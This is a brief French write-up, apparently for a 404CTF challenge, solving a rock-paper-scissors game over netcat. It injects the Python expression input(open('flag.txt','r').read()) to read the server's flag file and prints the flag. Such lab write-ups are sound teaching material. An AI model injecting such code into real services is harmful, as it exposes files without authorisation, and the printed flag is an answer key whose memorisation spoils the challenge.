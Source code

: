 > Hallebarde a mis en place sa variante du Pierre-papier-ciseaux. À ce jour, personne de nos services n'est parvenu à vaincre l'ordinateur. Montrez-leur de quoi vous êtes capable en récupérant leur précieux flag.txt !

1. Lancer l'adresse: "nc challenge.404ctf.fr 30806"
2. Mettre la commande: `input(open("flag.txt", "r").read())``
3. Copier Coller le flag
|`404CTF{cH0iX_nUm3r0_4_v1c701r3}`
|---
